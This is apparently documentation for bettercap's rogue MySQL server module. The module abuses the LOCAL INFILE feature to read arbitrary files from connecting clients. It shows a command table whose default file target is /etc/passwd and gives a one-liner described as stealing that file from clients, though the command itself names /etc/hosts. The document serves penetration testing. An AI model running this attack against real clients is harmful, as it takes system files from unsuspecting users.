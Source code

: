 ```yaml
---
title: mysql.server (rogue)
description: A rogue MySQL server that can be used to exploit LOCAL INFILE and read arbitrary files from the client.
---
```


A rogue MySQL server that can be used to exploit [LOCAL INFILE and read arbitrary files](/modules/ethernet/spoofers/introduction/) from the client.

### Commands

#### `mysql.server on`

Start mysql server.

#### `mysql.server off`

Stop mysql server.

### Parameters

| Parameter              | Default               | Description                                                                      |
| ---------------------- | --------------------- | -------------------------------------------------------------------------------- |
| `mysql.server.address` | `<interface address>` | Address to bind the mysql server to.                                             |
| `mysql.server.infile`  | `/etc/passwd`         | File you want to read. UNC paths are also supported.                             |
| `mysql.server.outfile` |                       | If filled, the INFILE buffer will be saved to this path instead of being logged. |
| `mysql.server.port`    | `3306`                | Port to bind the mysql server to.                                                |

### Examples

One liner to start the server and steal /etc/passwd from clients connecting to your Rogue MySQL server

```bash
sudo bettercap -eval "set mysql.server.infile /etc/hosts; mysql.server on"
```

Now connect to your MySQL server and observe the file output on the Bettercap terminal

```bash
mysql -u root -h 192.168.1.123 -pasdsasad --enable-local-infile
```

